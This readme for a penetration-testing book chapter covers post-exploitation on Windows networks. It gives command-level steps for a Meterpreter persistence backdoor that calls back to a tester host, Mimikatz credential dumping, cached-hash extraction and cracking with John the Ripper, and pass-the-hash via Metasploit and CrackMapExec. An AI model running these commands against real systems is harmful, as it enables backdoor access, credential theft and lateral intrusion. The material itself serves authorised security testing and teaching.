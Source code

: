 # Chapter 8 Readme

## Overview
This documentation discusses post-exploitation techniques related to harvesting credentials and moving laterally within a network.

### Moving Laterally
Moving laterally, or pivoting, involves accessing additional hosts on a network after compromising an initial system. Understanding the distinction between level-one and level-two systems is crucial for reporting and remediation efforts.

#### Key Points
- Differentiate between systems compromised directly and those accessed due to vulnerabilities exposed on other hosts.
- Consider clients' perspectives on remediation efforts.

### Maintaining Reliable Re-entry with Meterpreter
Ensuring persistent access to compromised targets is essential. The documentation covers the installation of a Meterpreter autorun backdoor executable and its configuration.

#### Steps
1. Install the Meterpreter autorun backdoor executable using the provided command:
   ```bash
   meterpreter > run persistence -A -L c:\\ -X -i 30 -p 8443 -r 10.0.10.160

#### Harvesting Credentials with Mimikatz
Explore the use of Mimikatz, a powerful tool for extracting clear-text passwords from compromised Windows targets' virtual memory space.

Steps
Load the Mimikatz extension into an active Meterpreter session:
meterpreter > load mimikatz

Use Mimikatz commands like tspkg and wdigest to retrieve clear-text credentials:
meterpreter > tspkg

## Using the Meterpreter post module

To use the Meterpreter post module for extracting domain cached credentials, follow these steps:

1. Open a Meterpreter session.
2. Execute the following command:
    ```bash
    run post/windows/gather/cachedump
    ```
3. Review the output for cached credentials information.

## Cracking cached credentials with John the Ripper

### Installing John the Ripper

1. Clone the John the Ripper repository:
    ```bash
    git clone https://github.com/magnumripper/JohnTheRipper.git
    ```

2. Navigate to the source directory:
    ```bash
    cd JohnTheRipper/src
    ```

3. Configure the source:
    ```bash
    ./configure
    ```

4. Compile the binaries:
    ```bash
    make -s clean && make -sj4
    ```

### Cracking Cached Credentials

1. Create a file named `cached.txt` and paste the cached domain hashes.
2. Run John the Ripper to brute-force passwords:
    ```bash
    ./run/john --format=mscash2 cached.txt
    ```

## Using a dictionary file with John the Ripper

1. Download the Rockyou dictionary:
    ```bash
    wget http://mng.bz/DzMn -O rockyou.txt
    ```

2. Run John the Ripper with the dictionary file:
    ```bash
    ./run/john --format=mscash2 cached.txt --wordlist=rockyou.txt
    ```

## Harvesting credentials from the filesystem

Explore the filesystem for potential credential files. Use commands like `findstr` and `where` to locate files with relevant information.

## Moving laterally with Pass-the-Hash

### Using the Metasploit smb_login module

1. Open the Metasploit console.
2. Load the smb_login module:
    ```bash
    use auxiliary/scanner/smb/smb_login
    ```
3. Set the required parameters:
    ```bash
    set smbuser administrator
    set smbpass [HASH]
    set smbdomain .
    set rhosts file:/path/to/hosts.txt
    set threads 10
    ```
4. Run the module:
    ```bash
    run
    ```

### Passing-the-hash with CrackMapExec

Use CrackMapExec to perform Pass-the-Hash:

```bash
cme smb /path/to/hosts.txt --local-auth -u Administrator -H [NTLM_HASH]


